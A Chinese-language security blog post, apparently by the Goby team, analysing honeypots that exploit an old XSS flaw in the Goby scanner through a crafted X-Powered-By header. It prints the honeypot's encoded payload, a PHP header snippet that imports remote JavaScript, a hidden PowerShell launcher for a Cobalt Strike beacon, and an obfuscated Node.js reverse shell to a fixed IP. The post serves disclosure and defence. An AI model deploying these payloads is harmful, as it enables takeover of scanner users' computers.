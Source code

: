 # 0x01 概述

近期我们联动FORadar做了一个插件，实现了从企业名称->企业漏洞的全自动检测流程，在做具体实践的时候碰到了两个很有意思的蜜罐，其中一个蜜罐内置了Weblogic漏洞，同时配置有专门针对旧版本Goby反制Payload，而另一个蜜罐则具备较强的隐蔽性，若非团队有专门研究蜜罐的人员，差点栽在这个蜜罐上，当然，这篇文章主要想聊聊第一个蜜罐，第二个有机会再单独拿出来探讨。

# 0x02 缘起
![在这里插入图片描述](https://img-blog.csdnimg.cn/4097a5d01eb34a558af7adfc43fbfcd8.png#pic_center)


故事的最开始，自然是使用Goby检测到了一个WebLogic远程代码执行漏洞，准备利用此漏洞进行后续动作的时候，团队成员发现这个目标并不简单：
![在这里插入图片描述](https://img-blog.csdnimg.cn/0220647644ee4df18e146a4fa42cdff7.jpeg#pic_center)

在返回包的头部中携带着反制Payload（IP已做脱敏处理）；

```html
X-Powered-By: PHP/7&#38;&#35;&#56;&#54;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#55;&#55;&#59;&#38;&#35;&#54;&#54;&#59;&#38;&#35;&#55;&#49;&#59;&#38;&#35;&#55;&#52;&#59;&#38;&#35;&#56;&#55;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#53;&#55;&#59;&#38;&#35;&#56;&#53;&#59;&#38;&#35;&#49;&#48;&#52;&#59;&#38;&#35;&#49;&#49;&#48;&#59;<img	src=1	onerror=&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x28;&#x75;&#x6e;&#x65;&#x73;&#x63;&#x61;&#x70;&#x65;&#x28;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x32;&#x37;&#x2e;&#x30;&#x2e;&#x30;&#x2e;&#x31;&#x3a;&#x38;&#x30;&#x38;&#x30;&#x2f;&#x56;&#x6e;&#x4d;&#x42;&#x47;&#x4a;&#x57;&#x75;&#x39;&#x55;&#x68;&#x6e;&#x2f;&#x4e;&#x6f;&#x64;&#x65;&#x2e;&#x6a;&#x73;&#x27;&#x29;&#x29;>
```

显然这是一串经过HTML实体编码的代码，让我们解码看看；

```html
X-Powered-By: PHP/7&#86;&#110;&#77;&#66;&#71;&#74;&#87;&#117;&#57;&#85;&#104;&#110;<img	src=1	onerror=import(unescape('http://127.0.0.1:8080/VnMBGJWu9Uhn/Node.js'))>
```

在这个逻辑上就显而易见了，这是一个常见的XSS Payload，目的是希望执行`/VnMBGJWu9Uhn/Node.js`文件，那么让我们来看看这个js文件；
![在这里插入图片描述](https://img-blog.csdnimg.cn/d932de475a7c4bb9b8fcc338080c2e58.png#pic_center)


可以看到这是一串nodejs的利用代码，作用并不复杂，首先定义一个download函数，从远端下载文件，然后根据操作系统，来下载不同的恶意文件，如果是Windows则直接下载可执行文件，如果是MAC则下载Python3脚本文件，执行Python脚本；

那么现在问题来了，为啥这样就能反制Goby呢？这实际上是一个非常久远的历史漏洞，最早的纰漏的时间是在2021年10月，当月漏洞就已修复并发布新版本，至于漏洞为何存在，得追溯到Goby的组件识别能力，Goby使用Electron构建客户端软件，在Goby的资产界面中，会展示所有符合指纹识别规则的组件名称，比如PHP、IIS等，而为了更为精准的组件识别，Goby会从返回的数据报文中提取版本信息，并在界面渲染展示，在旧版本的Goby中并未对版本信息做无害化处理，从而导致漏洞产生。

# 0x03 缘起如果我用的Goby存在这个漏洞会怎样？

在达成条件之后，这个漏洞能够带来的后果非常严重，可以被反制方直接控制Goby所在的PC，但幸运的是这个漏洞并不是一个0click漏洞，需要Goby的使用人员来配合交互才能达成触发条件。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6f5c7c20884c4f488411bda809ab93af.png#pic_center)


如你所见，这是正常的资产界面，以及版本信息提取结果，但可以通过构造HTTP头部的方式，来对版本信息进行调整，比如这样：

```php
#index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=\"alert(1);\">");
?>
```

此时，用户在Goby界面上看到的结果是这样的：

![在这里插入图片描述](https://img-blog.csdnimg.cn/d03b04b8a1a04672b616853c8bdd2d63.jpeg#pic_center)


在界面上可以很清楚的看到反制方所使用的payload，该页面上并不会触发XSS代码，但如果此时只要点击进入IP详情界面，如下图所示，就会触发XSS代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/c44e2d1d4d2548fa9c140012adc9a0cf.jpeg#pic_center)


反制方当然可以利用此漏洞做更多的事情，可以跟上述蜜罐设备一样从远端下载恶意文件并触发执行，也可以直接调用Powershell执行ShellCode，上线CS：

```php
# index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=import(unescape('http%3A//119.**.**.135%3A18899/js/1.js'))>");
?>
```

```js
// /js/1.js
(function(){require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAc......(省略)');})();

```

当用户点击进入IP详情页面后，不会有任何感知，但实际上已经悄然执行powershell代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/c763d5f1da7e4bcb9e90ddc208c4b06a.jpeg#pic_center)


成功上线CS

![在这里插入图片描述](https://img-blog.csdnimg.cn/df5b2c30d0b74ccaac1a1c1ac9a9fea7.jpeg#pic_center)


所以，尽快升级Goby到最新版本吧~~，除了自身漏洞的修复，我们也一直在推出更多好用、实用的新功能期待师傅们的体验和反馈。

# 0x04 还有多少个蜜罐在望眼欲穿呢？

诚如我们前文所说，这是一个已经修复近两年前的漏洞了，但是在全球范围内，仍然有着大量的蜜罐设备，再等待着某一个仍然使用旧版本Goby的好心人，我们可以使用一条FOFA语法便可以很快的找到这些目标：

```bash
header="img" && header="onerror"
```

可以看到，在全球范围内，有近1899条蜜罐记录，其Payload也大同小异，与前文碰到的蜜罐设备一致，有意思的是在境外也有数十条记录（~~老外也想反制Goby？~~）。

而从产品分布的角度来说，这类蜜罐广泛覆盖在：深信服VPN、致远OA、RANZHIOA、泛微OA、phpMyAdmin等在攻防场景中广泛涉及的产品和应用，师傅们碰到这些资产可要多个心眼。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3fe8dc14d6b4b36b7d4318797f5763a.png#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/6e52b8829226455c8101aaa2d2ca1b7f.png#pic_center)



我们也可以对Fofa语法进行略微的调整，看看有没有一些新东西

```bash
header="img" && header="onerror" && header!="PHP"
```

剔除掉同类蜜罐后，仅剩下160条记录，明显有着与之前蜜罐设备不同的利用方式
![在这里插入图片描述](https://img-blog.csdnimg.cn/df09f55ecdf445a9be0343c96fb13667.png#pic_center)


```bash
X-Powered-By: <img src=# onerror=window.open('https://202.**.***.12/help.html')>
```

跟进到help.html之后，发现是一个经过混淆的Payload

```html
<!-- help.html !-->
<!DOCTYPE HTML>
<html>
<head>
    <meta charset="utf-8" />
    <script>
        var _0x1c94=['temp.js','utf8','writeFile','uuid','child_process','fork','/tmp/temp.js'];var _0x4cc5=function(_0x1c94c3,_0x4cc551){_0x1c94c3=_0x1c94c3-0x0;var _0x3be382=_0x1c94[_0x1c94c3];return _0x3be382;};var _0x551876='';var _0x840f11='\x0avar\x20_0x411b=[\x27net\x27,\x27child_process\x27,\x27platform\x27,\x27spawn\x27,\x27/bin/bash\x27,\x27Socket\x27,\x27connect\x27,\x27stdout\x27,\x27pipe\x27];var\x20_0x4b64=function(_0x411be0,_0x4b6451){_0x411be0=_0x411be0-0x0;var\x20_0x278a8f=_0x411b[_0x411be0];return\x20_0x278a8f;};var\x20_0x1f656a=\x27106.75.15.34\x27;var\x20_0xb2ca98=\x2722220\x27;(function(){var\x20_0x58cd49=require(\x27os\x27);var\x20_0x20a0b2=require(\x27fs\x27);var\x20_0x2af086=require(_0x4b64(\x270x0\x27));var\x20_0x597913=require(_0x4b64(\x270x1\x27));var\x20_0x269932=_0x58cd49[_0x4b64(\x270x2\x27)]();if(_0x269932==\x27win32\x27){var\x20_0x16b7e1=_0x597913[\x27spawn\x27](\x27cmd\x27,[]);}else{var\x20_0x16b7e1=_0x597913[_0x4b64(\x270x3\x27)](_0x4b64(\x270x4\x27),[\x27-i\x27]);}var\x20_0x293f60=new\x20_0x2af086[(_0x4b64(\x270x5\x27))]();_0x293f60[_0x4b64(\x270x6\x27)](_0xb2ca98,_0x1f656a,function(){_0x293f60[\x27pipe\x27](_0x16b7e1[\x27stdin\x27]);_0x16b7e1[_0x4b64(\x270x7\x27)][_0x4b64(\x270x8\x27)](_0x293f60);_0x16b7e1[\x27stderr\x27][\x27pipe\x27](_0x293f60);});return/a/;}());\x0a';var _0x2b76a6=require('fs');var _0x512c82=require('os')['platform']();if(_0x512c82=='win32'){_0x2b76a6['writeFile'](_0x4cc5('0x0'),_0x840f11,_0x4cc5('0x1'),function(_0x4af088){});_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x3'),_0x551876,_0x4cc5('0x1'),function(_0x3e2b1c){});require(_0x4cc5('0x4'))[_0x4cc5('0x5')](_0x4cc5('0x0'),{'detached':!![]});}else{_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x6'),_0x840f11,_0x4cc5('0x1'),function(_0x261f0f){});_0x2b76a6['writeFile']('/tmp/uuid',_0x551876,'utf8',function(_0x474cc8){});require('child_process')['fork'](_0x4cc5('0x6'),{'detached':!![]});}
    </script>
</head>

<body>
</body>
</html>
```

虽然绝大部分代码已经经过混淆，但不难看出Payload的用意是将恶意文件写入磁盘并调用执行，但从最初的语法来说，这应该并不止针对于Goby的蜜罐设备，在Goby中没能，推测可能是某一种扫描器，该扫描器使用了某种框架 ，既集成了浏览器的解析环境，又可以直接在该浏览器的解析环境中调用node.js的代码，从而触发反制者的Payload。

# 0x05 尾声

到这里关于蜜罐的分析就结束了，也提前预告一下我们最近在为Goby实战场景的最佳实践做了大量的测试，目前也小有收获，近期会发布相关版本和文章，希望师傅们保持关注不要错过~

# 0x06 参考

- [闲来无事，反制Goby](https://mp.weixin.qq.com/s/EPQZs5eQ4LL--tao93cUfQ)




Goby 官网: https://gobysec.net/
如果您有任何反馈建议，您可通过提交 issue 或是以下方式联系我们：
GitHub issue: https://github.com/gobysec/Goby/issues
微信群：关注公众号“GobySec“，回复暗号”加群“ （社群优势：可第一时间了解Goby功能发布、活动等咨询）
Telegram Group: http://t.me/gobies
推特：https://twitter.com/GobySec
